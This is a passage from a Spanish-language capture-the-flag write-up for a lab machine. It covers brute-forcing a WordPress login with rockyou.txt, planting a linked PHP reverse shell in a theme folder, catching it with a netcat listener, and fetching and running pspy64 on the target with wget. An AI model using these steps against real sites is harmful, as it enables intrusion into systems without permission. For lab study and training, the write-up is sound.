 ```python
[+] Cached Requests: 38
[+] Data Sent: 23.764 KB
[+] Data Received: 493.484 KB
[+] Memory used: 296.426 MB
[+] Elapsed time: 00:00:07
```
Usamos este comando para escanear el sitio de WordPress ubicado en `http://academy.thl/wordpress/` para enumerar todos los plugins instalados y, además, realiza un ataque de fuerza bruta para tratar de adivinar las contraseñas utilizando la lista de contraseñas `rockyou.txt`. En este caso encontró el usuario `dylan` y la contraseña `password1`.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/f1a65f6a-370d-4506-83c3-9c0265a2d0aa)

Y estamos dentro!

#### Wordpress Explotation
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/ead5ac6c-2351-43c9-a69d-785c2020f412)
Si vemos el resultado de wpscan podemos ver que el tema `twentytwentythree` tiene habilitado un directory listing.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/6f0928ee-dd2d-48a9-9dbd-2c1345cb6adc)
Nos dirigimos a la carpeta `/themes/twentytwentythree` y creamos un archivo `.txt` pero le cambiamos la extensión a `.php`. 

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/1dd123cd-c6cd-4626-9c6c-3266e2430301)

Le ponemos una reverse shell en php, Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/71d35142-48aa-43f5-a2df-92107efdaca8)

Y la tenemos!. Nos ponemos en modo escucha con el comando: `nc -nlvp <puerto>`

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/2b64d97c-f1c6-459c-8d8f-b887f8caa385)

Y ya estamos dentro!.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/eb7dc50c-fa31-4855-a7cb-d12eb1300e35)

Despues de realizar el tratamiento de la TTY, no encontramos ningún binario medio raro. Tocara buscar.

#### pspy64
Nos descargamos en la maquina victima la herramienta pspy64
```r
> wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
> chmod +x pspy64
> ./pspy64
```
